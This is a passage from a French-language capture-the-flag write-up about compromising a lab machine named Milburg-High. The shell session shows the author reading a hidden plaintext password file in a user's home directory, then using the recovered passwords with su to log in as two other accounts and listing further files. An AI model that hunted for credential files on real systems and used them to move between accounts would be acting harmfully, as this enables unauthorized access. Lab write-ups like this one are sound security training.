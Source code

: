```console
drwxr-xr-x  3 bob  bob   4096 Feb 21 18:13 .local
drwx------  4 bob  bob   4096 Feb 21 18:13 .mozilla
drwxr-xr-x  2 bob  bob   4096 Mar  4 14:03 .nano
-rw-r--r--  1 bob  bob     72 Mar  5 04:12 .old_passwordfile.html
-rw-r--r--  1 bob  bob    675 Feb 21 18:10 .profile
--snip--

www-data@Milburg-High:/home$ cat bob/.old_passwordfile.html
cat bob/.old_passwordfile.html
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>
```

BBB (bah bravo Bob !) il a beau jeu de sermonner ses collègues... alors qu'il a stocké des mots de passe en clair.

```console
jc@Milburg-High:~$ id
id
uid=1002(jc) gid=1002(jc) groups=1002(jc),100(users)

www-data@Milburg-High:/home$ su - jc
su - jc
Password: Qwerty

jc@Milburg-High:~$ 
jc@Milburg-High:~$ id
id
uid=1002(jc) gid=1002(jc) groups=1002(jc),100(users)

jc@Milburg-High:~$ su - seb
su - seb
Password: T1tanium_Pa$$word_Hack3rs_Fear_M3

seb@Milburg-High:~$ 
seb@Milburg-High:~$ id
id
uid=1003(seb) gid=1003(seb) groups=1003(seb),100(users)
```

Et ce n'est pas tout ! Les répertoires de Bob n'ont pas fini de livrer leurs secrets.

```console
www-data@Milburg-High:/home$ ls bob/D*
ls bob/D*
bob/Desktop:

bob/Documents:
Secret	login.txt.gpg  staff.txt

bob/Downloads:
Hello_Again.py	     proftpd-1.3.3c
Wheel_Of_Fortune.py  wallpaper.wiki-HD-Bobcat-Wallpaper-PIC-WPB0014118.jpg
```
